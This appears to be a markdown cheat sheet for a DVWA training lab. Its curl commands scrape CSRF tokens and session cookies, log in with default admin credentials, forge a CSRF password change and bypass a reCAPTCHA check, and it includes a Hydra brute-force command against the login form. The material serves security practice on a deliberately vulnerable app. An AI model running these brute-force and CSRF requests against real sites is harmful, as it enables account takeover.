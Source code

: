 # Login & cookie

use DVWA as example page

### get csrf token

```bash
curl -s -L -c cookies.txt -b cookies.txt "<host>" | grep <keyword>  | grep -oE \'\[a-z0-9\]+\' | awk 'length >= 10'
```

```bash
curl -s -L -c cookies.txt -b cookies.txt "http://localhost:8086/login.php" | grep user_token  | grep -oE \'\[a-z0-9\]+\' | awk 'length >= 10'
```

```bash
curl -s -L -c cookies.txt -b cookies.txt "http://localhost:8086/login.php" | grep user_token  | grep -oE \[a-z0-9\]+ | awk 'length >= 10'
```

### 🔹 get csrf token from cookie

```bash
CSRF=`curl -s -L -c cookies.txt -b cookies.txt "http://localhost:8086/login.php" | grep user_token  | grep -oE \[a-z0-9\]+ | awk 'length >= 10'`
```

### 🔸 get session from cookie

```bash
SESSIONID=$(grep PHPSESSID cookies.txt | cut -d $'\t' -f7)
```

### login and create cookie

```bash
curl -v -L \
-c cookies.txt -b cookies.txt \
-X POST $HOST \
--data-raw \
"username=${USER}&password=${PASSWORD}&Login=Login&user_token=${CSRF}"
```

```bash
curl -v -L -c cookies.txt -b cookies.txt -X POST "http://localhost:8086/login.php" --data-raw "username=admin&password=password&Login=Login&user_token=${CSRF}"
```

### 🔑 send request with cookie

```bash
curl -v -c cookies.txt -b cookies.txt "http://localhost:8086/vulnerabilities/csrf/?password_new=111&password_conf=111&Change=Change#"
```

### 👉 Work with Hydra

```bash
hydra -V -l admin -P 10-million-password-list-top-10000.txt -s 8086 -f localhost http-form-get "/vulnerabilities/brute/?:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: PHPSESSID=${SESSIONID}; security=low"
```

### more examples:

```bash
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.1.44/DVWA/login.php" >/dev/null
```

---

reCAPTCHA

```bash
curl -v -L \
-c cookies.txt -b cookies.txt \
-X POST $HOST \
-H "User-Agent: ${USER_AGENT}" \
--data-raw \
"step=1&password_new=${NEW_PASSWORD}&password_conf=${NEW_PASSWORD}&g-recaptcha-response=${G_RES}&user_token=${TOKEN&}Change=Change"
```

```bash
curl -v -L \
--cookie "PHPSESSID=4774b7d45d62876f2f8a2e93ba5e7640;security=high" \
-X POST http://dvwa.localtest/vulnerabilities/captcha/ \
-H "User-Agent: reCAPTCHA" \
--data-raw \
"step=1&password_new=1111&password_conf=1111&g-recaptcha-response=hidd3n_valu3&user_token=54fb2e161e4428868c54085b6764dfe3&Change=Change"
```

---

# Ref

DVWA - Brute Force (Medium Level) - Time Delay - g0tmi1k
[https://blog.g0tmi1k.com/dvwa/bruteforce-medium/#L.strong.Hydra..strong](https://blog.g0tmi1k.com/dvwa/bruteforce-medium/#L.strong.Hydra..strong).

```bash
curl -s -b 'security=low' -b dvwa.cookie 'http://localhost:8086/vulnerabilities/brute/' | sed -n '/<div class="body_padded/,/<\/div/p' > low.txt
```

```bash
curl -s -b 'security=medium' -b dvwa.cookie 'http://localhost:8086/vulnerabilities/brute/' | sed -n '/<div class="body_padded/,/<\/div/p' > medium.txt
```

```bash
diff {low,medium}.txt
```

```bash
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.1.44/DVWA/login.php" >/dev/null
```
